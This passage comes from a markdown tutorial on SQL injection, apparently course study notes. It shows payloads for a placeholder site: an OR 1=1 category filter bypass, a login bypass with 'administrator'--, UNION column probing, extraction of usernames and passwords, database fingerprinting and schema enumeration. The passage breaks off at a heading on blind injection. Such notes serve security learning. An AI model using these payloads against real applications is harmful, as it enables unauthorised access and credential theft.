 An alternate injection to display all categories:
```plaintext
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

### Authentication Bypass
Submitting `'administrator'--` as a username and leaving the password blank can bypass authentication:
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

### UNION-Based SQL Injection
The `UNION` keyword can retrieve data from other tables if:
1. The same number of columns are selected.
2. Data types match across columns.
   - Example: `' UNION SELECT NULL, NULL--`.

**Finding Column Count:** Inject `ORDER BY` or `UNION SELECT NULLs` to determine column compatibility.

**Determining Column Data Types:** Test each column by placing a string (`'a'`) in individual columns:
```sql
' UNION SELECT 'a',NULL,NULL,NULL-- 
```

### Retrieving Sensitive Data
Once columns are identified, use `UNION` to extract data:
```sql
' UNION SELECT username, password FROM users--
```

For single-column queries, use string concatenation:
```sql
' UNION SELECT username || '~' || password FROM users--
```

### Database Type and Version Identification
Determine database type/version with provider-specific queries:
- **Microsoft SQL Server, MySQL**: `SELECT @@version`
- **Oracle**: `SELECT * FROM v$version`
- **PostgreSQL**: `SELECT version()`

### Listing Database Structure
Querying `information_schema` views (excluding Oracle):
- List tables: `SELECT * FROM information_schema.tables`
- List columns in `Users` table:
  ```sql
  SELECT * FROM information_schema.columns WHERE table_name = 'Users'
  ```

## What is blind SQL injection?
